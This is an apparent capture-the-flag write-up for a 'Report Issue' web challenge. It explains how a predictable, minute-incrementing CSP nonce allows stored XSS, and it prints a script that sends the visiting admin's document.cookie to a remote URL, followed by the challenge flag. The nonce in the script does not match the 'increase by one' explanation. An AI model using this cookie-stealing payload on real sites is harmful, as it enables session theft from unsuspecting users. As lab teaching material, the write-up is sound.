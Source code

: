 
# Report Issue -- Solution

## Website source

The website is a simple interface for uploading issue messages. The basic idea is to perform an XSS attack. A malicious user can upload a custom script.

The task description has a hint with cookies, so the assumption is that the flag is hidden in the admin cookie, and the admin will somehow visit the issue page.

##  Content-Security-Policy

If we upload some script, it will not work. This is due to the **Content-Security-Policy** mechanism. If we check the response, we will see that this header argument is: **default-src; script-src 'nonce-28079535'; connect-src \*; style-src 'nonce-28079535'**.

**CSP** (Content-Security-Policy) protects us from arbitrary scripts if the **nonce** is wrong.

## Nonce

If we check the **Nonce**, we will see that every minute nonce is increased by one, which means that **Nonce** is very predictable, and this is our spot for the attack.

## Attack

We can check the current nonce, increase this nonce by one and write the script:

```
<script type="text/javascript" nonce="28070552">
document.location="remote_url/?flag="+document.cookie;
</script>
```

This script will change the location of the document, and the new location will have the GET argument set to the site visitor's cookie. In our case, when the admin visits the issue page, it will be redirected to a malicious URL, and a cookie (flag) will be shown on the remote server: **TBTL{4DM1N_H45_V3RY_N1C3_C00KIES}**.
